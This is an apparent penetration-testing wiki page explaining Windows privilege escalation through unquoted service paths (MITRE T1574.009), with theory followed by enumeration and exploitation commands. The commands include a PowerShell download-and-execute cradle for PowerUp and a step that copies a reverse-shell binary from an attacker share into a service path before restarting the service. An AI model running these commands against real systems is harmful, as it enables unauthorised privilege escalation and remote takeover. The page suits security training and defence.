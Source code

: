 ```yaml
---
description: >-
  MITRE ATT&CK™  Hijack Execution Flow: Path Interception by Unquoted Path  -
  Technique T1574.09
---
```


# Unquoted Service Path

# Theory

Windows privilege escalation through unquoted service paths is a common vulnerability that occurs when a service executable file is installed in a directory path that contains spaces but is not surrounded by quotation marks.
When Windows starts a service, it looks for the executable file based on the service's configuration. If the path to the executable contains spaces and is not enclosed in quotation marks, Windows may interpret the path incorrectly. In such cases, Windows will try to locate the executable using a combination of the directory names and filenames in the path, which can result in unintended files being executed.  

Here's an example to illustrate this, consider we have the following executable path:
```
C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe
```
In order to run SomeExecutable.exe, the system will interpret this path in the following order:
  - C:\Program.exe
  - C:\Program Files\A.exe
  - C:\Program Files\A Subfolder\B.exe
  - C:\Program Files\A Subfolder\B Subfolder\C.exe
  - C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe

# Practice 

{% tabs %}
{% tab title="Enum" %}
We can use wmic to enumerate it:
```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

Alternativly, we can use `Invoke-AllChecks` from PowerUp
```powershell
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```
{% endtab %}

{% tab title="Exploit" %}
You can check if you have write acces to a folder with `icacls`
```powershell
icacls "C:\Program Files\A Subfolder\"
```

If you can write to it, you can put your binary like:
```powershell
copy \\ATTACKING_IP\Share\reverse.exe C:\Program Files\A Subfolder\B.exe  
```

And then, restart the service
```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---unquoted-service-paths" %}
